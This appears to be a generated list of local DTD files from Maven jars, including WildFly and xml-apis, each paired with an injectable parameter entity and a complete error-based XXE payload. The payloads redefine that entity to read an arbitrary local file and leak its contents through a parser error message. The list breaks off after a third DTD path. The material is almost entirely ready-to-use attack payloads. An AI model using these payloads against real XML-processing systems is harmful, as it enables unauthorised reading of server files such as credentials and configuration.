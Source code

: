 **DTD File:** `[HOME_DIR]/.m2/repository/org/wildfly/wildfly-dist/8.2.1.Final/wildfly-dist-8.2.1.Final.zip!/wildfly-8.2.1.Final/docs/schema/web-facesconfig_1_0.dtd`

**Injectable entity:** `%Language`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/wildfly/wildfly-dist/8.2.1.Final/wildfly-dist-8.2.1.Final.zip!/wildfly-8.2.1.Final/docs/schema/web-facesconfig_1_0.dtd">

    <!ENTITY % Language '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/xml-apis/xml-apis/1.0.b2/xml-apis-1.0.b2-sources.jar!/com/sun/xml/xhtml/resources/xhtml1-frameset.dtd`

**Injectable entity:** `%HTMLlat1`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/xml-apis/xml-apis/1.0.b2/xml-apis-1.0.b2-sources.jar!/com/sun/xml/xhtml/resources/xhtml1-frameset.dtd">

    <!ENTITY % HTMLlat1 '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/xml-resolver/xml-resolver/1.2/xml-resolver-1.2.jar!/org/apache/xml/resolver/etc/catalog.dtd`
